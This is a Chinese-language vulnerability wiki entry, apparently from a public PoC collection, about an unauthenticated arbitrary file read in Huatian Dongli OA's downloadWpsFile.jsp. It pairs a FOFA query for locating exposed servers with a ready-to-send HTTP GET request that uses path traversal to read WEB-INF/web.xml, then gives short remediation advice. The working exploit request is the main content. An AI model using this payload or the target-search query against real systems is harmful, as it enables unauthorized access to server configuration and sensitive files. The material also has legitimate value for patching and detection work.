

---

source: "SourByte05/Vulnerability-Wiki-PoC"
---

# 华天动力OA downloadWpsFile.jsp 任意文件读取漏洞 

# 漏洞描述

华天动力OA downloadWpsFile.jsp 接口处存在任意文件读取漏洞，未经身份认证的攻击者可利用此漏洞获取服务器内部敏感文件，使系统处于极不安全的状态。

影响版本

华天动力OA

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="华天动力-OA8000"

POC/EXP：

GET /OAapp/jsp/downloadWpsFile.jsp?fileName=../../../../../../htoa/Tomcat/webapps/ROOT/WEB-INF/web.xml HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate

# 修复方案

1. 建议在漏洞修复前尽量避免将系统暴露在互联网上或通过白名单限制访问；

   在WAF等安全设备上监测访问URL的中是否包含上述关键词，并严加防护；

   及时升级到最新版本：http://bj.oa8000.com/。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
